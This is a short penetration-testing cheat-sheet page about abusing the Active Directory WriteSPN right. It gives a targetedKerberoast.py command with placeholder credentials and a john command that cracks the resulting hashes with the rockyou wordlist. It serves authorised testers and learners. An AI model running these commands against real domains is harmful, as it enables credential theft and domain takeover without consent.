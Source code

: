 ```yaml
---
title: "WriteSPN"
date: 2025-7-14
tags: ["WriteSPN", "Targeted Kerberoast", "Domain Controller", "Active Directory", "Windows"]
---
```


### Privesc #1: Targeted Kerberoast

{{< tab set1 tab1 >}}Linux{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Targeted Kerberoast

```console
# Password
python3 targetedKerberoast.py -d '<DOMAIN>' -u '<USER>' -p '<PASSWORD>' --dc-ip '<DC_IP>'
```

#### 2. Hash Crack

```console
john --wordlist=/usr/share/wordlists/rockyou.txt <HASH_FILE>
```

<small>*Ref: [targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast)*</small>

{{< /tabcontent >}}
